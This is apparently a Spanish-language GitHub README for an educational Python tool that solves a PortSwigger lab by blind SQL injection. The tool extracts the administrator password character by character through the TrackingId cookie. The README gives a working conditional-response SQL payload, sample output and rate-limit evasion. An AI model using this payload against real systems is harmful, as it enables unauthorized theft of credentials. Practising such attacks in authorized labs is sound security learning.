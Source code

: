 # SQL Injection Brute Force – Administrator Password Extractor
## Blind SQL injection with conditional responses
![Python](https://img.shields.io/badge/python-3.8%2B-blue)
![License](https://img.shields.io/badge/license-MIT-green)
![Status](https://img.shields.io/badge/status-completado-success)

> Herramienta educativa para resolver el laboratorio **"SQL injection vulnerability allowing login bypass"** de [PortSwigger Web Security Academy](https://portswigger.net/web-security/sql-injection).

Este script realiza un **ataque de fuerza bruta por inyección SQL** para extraer carácter por carácter la contraseña del usuario `administrator` mediante la cookie `TrackingId`.

---

## Características

- Extracción automática de la contraseña (máx. 20 caracteres)
- Soporte para interrupción limpia con `Ctrl+C`
- Progreso visual con `pwntools` y `termcolor`
- Manejo de errores de red y timeouts
- Evita rate limiting con pausas

---

## Requisitos

```bash
pip install requests pwntools termcolor
```

## Ejemplo de salida:
```sh
[+] SQLI: Iniciando ataque de fuerza bruta
[+] SQLI: Probando posición 1: a
[+] SQLI: Probando posición 1: b
[+] SQLI: Probando posición 1: c
[+] Password: c
[+] SQLI: Probando posición 2: 0
[+] Password: c0
...
[+] Contraseña del administrador: c0d3r123abcxyz
```


## Estructura del Payload SQL

```sql
' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='c'-- -
```


### Advertencia
Uso exclusivo educativo y ético.
Solo en entornos autorizados como PortSwigger Labs.
